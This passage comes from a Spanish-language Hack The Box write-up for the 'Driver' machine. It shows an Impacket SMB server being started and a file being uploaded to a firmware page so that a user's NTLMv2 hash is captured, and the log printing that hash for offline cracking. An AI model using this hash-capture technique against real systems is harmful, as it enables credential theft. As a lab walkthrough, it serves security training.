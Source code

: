 ```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Bueno ahora lo que vamos a hacer es subir el archivo en el apartado de **Firmware Updates** como va a tratar de cargar el icono y el icono lo tenemos nosotros en nuestro recurso compartido a nivel de red cuando se carga debe de haber una autenticacion entonces si funciona nos llegara el **Hash** **NTLMv2** del usuario que revisa el archivo que podemos crackear offline

![](/assets/images/htb-writeup-driver/web4.png)

Y bueno una vez lo subimos nos llega el **Hash** del usuario **Tony**

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.106,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:56b838deb5548260bac18adeb656beb1:010100000000000080bd3170419ad9016b7d283652991d1d000000000100100070005700760065004a00630074006f000300100070005700760065004a00630074006f0002001000690043004f005800670073004800630004001000690043004f00580067007300480063000700080080bd3170419ad901060004000200000008003000300000000000000000000000002000007d56943e2a2cccd215c04e6870ed829aa62c358c99631b089f4e2d429dbc55500a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:smbFolder)
[*] Closing down connection (10.10.11.106,49414)
[*] Remaining connections []

```
